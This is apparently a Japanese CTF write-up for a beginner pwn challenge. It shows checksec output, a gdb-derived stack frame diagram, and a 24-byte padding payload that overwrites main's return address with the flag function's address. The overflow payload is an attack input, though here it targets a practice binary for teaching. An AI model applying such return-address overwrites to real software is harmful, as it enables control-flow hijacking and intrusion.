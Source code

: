 よって、 flag / main 関数のアドレスが実行時にランダム化されず、特定のアドレスに配置されることがわかります。
ゆえに、 scanf でうまく攻撃テキストを入力すれば、 flag 関数を呼び出せそうです。

```bash
┌──(ganyariya㉿utmkali)-[~/ctf/fullweakctf/pwnmebaby/dist]
└─$ pwn checksec main
[*] '/home/ganyariya/ctf/fullweakctf/pwnmebaby/dist/main'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

### 攻撃コードを入力する

前知識として関数が利用する `スタックフレーム` ならびにアセンブリコードへの理解が必要になります。
下記 note などを参考ください。

https://note.ganyariya.dev/01_Note/x86-64-%E3%81%AB%E3%81%8A%E3%81%91%E3%82%8B%E9%96%A2%E6%95%B0%E5%91%BC%E3%81%B3%E5%87%BA%E3%81%97%E6%99%82%E3%81%AE%E3%82%B9%E3%82%BF%E3%83%83%E3%82%AF%E3%83%95%E3%83%AC%E3%83%BC%E3%83%A0%E3%81%AE%E6%8C%99%E5%8B%95%E3%82%92%E8%AA%BF%E3%81%B9%E3%82%8B

gdb でレジスタの値やアセンブリコードを覗くと、 main 関数の実行時は以下のようなスタックフレームの構造になっています。

```bash
0x0
+--------------+

------------ 0x7fffffffea00 ← rsp
~0x18 = 24 Byte~
main 関数のスタックフレーム
scanf で入力したデータ 0x7fffffffea00 から連続したアドレスに配置される
------------ 0x7fffffffea18
__libc_start_call_main へのリターンアドレス (0x0000000000401dd4)
------------ 0x7fffffffea20
__libc_start_call_main のスタックフレーム

+--------------+
0x00000000FFFFFFFFF
```

ここで `aaaaaaaaaaaaaaaaaaaaaaaa\x10\x18\x40\x0\x0\x0\x0\x0` と入力しましょう。
すると、`__libc_start_call_main へのリターンアドレス` を書き換えられます。

- a * 24
  - パディング
- `\x10\x18\x40\x0\x0\x0\x0\x0`
  - Flag 関数のアドレス
  - 0x401810 のリトルエンディアン

```bash
0x0
+--------------+

------------ 0x7fffffffea00 ← rsp
~0x18 = 24 Byte~ → a が 24 個書き込まれる
main 関数のスタックフレーム
------------ 0x7fffffffea18
__libc_start_call_main へのリターンアドレス (0x0000000000401dd4) → 0x401810 (flag 関数) に書き換えられる
------------ 0x7fffffffea20
__libc_start_call_main のスタックフレーム

+--------------+
0x00000000FFFFFFFFF
```
